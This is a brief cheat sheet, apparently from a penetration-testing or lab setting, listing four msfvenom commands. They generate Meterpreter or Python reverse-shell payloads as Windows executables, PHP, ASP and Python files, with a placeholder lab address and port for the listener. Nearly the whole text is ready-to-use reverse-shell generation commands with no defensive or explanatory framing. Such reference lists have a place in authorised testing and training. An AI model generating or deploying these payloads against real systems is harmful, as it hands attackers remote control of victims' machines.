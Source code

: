 Windows

msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev\_shell.exe

PHP

msfvenom -p php/meterpreter\_reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php

ASP

msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev\_shell.asp

Python

msfvenom -p cmd/unix/reverse\_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev\_shell.py